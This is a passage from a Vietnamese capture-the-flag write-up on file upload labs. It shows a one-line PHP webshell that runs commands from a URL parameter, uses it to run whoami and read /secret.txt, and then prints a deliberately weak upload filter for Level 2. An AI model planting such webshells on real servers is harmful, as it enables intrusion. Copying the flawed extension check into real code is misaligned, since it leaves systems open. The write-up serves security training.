 ![image](https://hackmd.io/_uploads/BklsKm0bR.png)

- vậy bây giờ chúng ta có thể tạo 1 file để RCE đến hệ thống website như <a href="https://hackmd.io/@monstercuong7/B1WSanCp6">bài này</a> mình đã làm hoặc chúng ta có thể tạo 1 webshell thực thi lệnh trên biến cmd mình tạo trên url như sau

```php
<?php echo 'SECRET============' . system($_GET[cmd]). '============SECRET'; ?>
```

- và mình upload thành công file

![image](https://hackmd.io/_uploads/HJ8G3X0ZA.png)

- mình thực hiện lệnh whoami và được thông tin user web trả về là **www-data**

![image](https://hackmd.io/_uploads/S1sW37R-0.png)

- mình thực hiện lệnh `ls -la /` và thấy được file **secret.txt**

![image](https://hackmd.io/_uploads/SkT6h7CbC.png)

- mình `cat /secret.txt` và được flag

![image](https://hackmd.io/_uploads/H1AlaXRWC.png)

## File upload workshop Level 2

![image](https://hackmd.io/_uploads/rJ2SRQAbR.png)

### Phân tích

- đọc source code mình được:

```php
<?php
// error_reporting(0);

// Create folder for each user
session_start();
if (!isset($_SESSION['dir'])) {
    $_SESSION['dir'] = 'upload/' . session_id();
}
$dir = $_SESSION['dir'];
if (!file_exists($dir))
    mkdir($dir);

if (isset($_GET["debug"])) die(highlight_file(__FILE__));
if (isset($_FILES["file"])) {
    $error = '';
    $success = '';
    try {
        $filename = $_FILES["file"]["name"];
        $extension = explode(".", $filename)[1];
        if ($extension === "php") {
            die("Hack detected");
        }
        $file = $dir . "/" . $filename;
        move_uploaded_file($_FILES["file"]["tmp_name"], $file);
        $success = 'Successfully uploaded file at: <a href="/' . $file . '">/' . $file . ' </a><br>';
        $success .= 'View all uploaded file at: <a href="/' . $dir . '/">/' . $dir . ' </a>';
    } catch (Exception $e) {
        $error = $e->getMessage();
    }
```